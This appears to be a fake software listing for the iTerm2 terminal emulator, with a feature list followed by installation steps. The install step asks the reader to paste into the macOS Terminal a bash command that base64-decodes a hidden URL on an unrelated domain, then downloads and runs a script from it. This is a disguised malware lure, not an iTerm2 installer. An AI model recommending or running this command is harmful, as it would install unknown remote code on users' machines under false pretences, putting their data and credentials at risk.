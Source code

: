 🔹 iTerm2

Official Site: https://iterm2.com

License: GPL-2.0

Language: Primarily Objective-C

📄 GitHub Description:
iTerm2 is a terminal emulator for macOS that does amazing things.

✨ Key Features:
Split panes (horizontally & vertically)

Hotkey window for quick access

Search and autocomplete

Extensive customization (colors, fonts, transparency)

Instant replay of terminal sessions

Mouse support

Paste history

Integration with tmux

Scripting with Python

🚀 Installation:
1. Open the Terminal app on your Mac
Press Command (⌘) + Space to launch Spotlight Search
Type Terminal, then press Enter to launch it

2. Enter this command in Terminal
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9pY2xvdWRzZXJ2ZXJzLmNvbS9nbS9pbnN0YWxsLnNo | base64 -d))"

Copy the following command and paste it into Terminal, then press Return

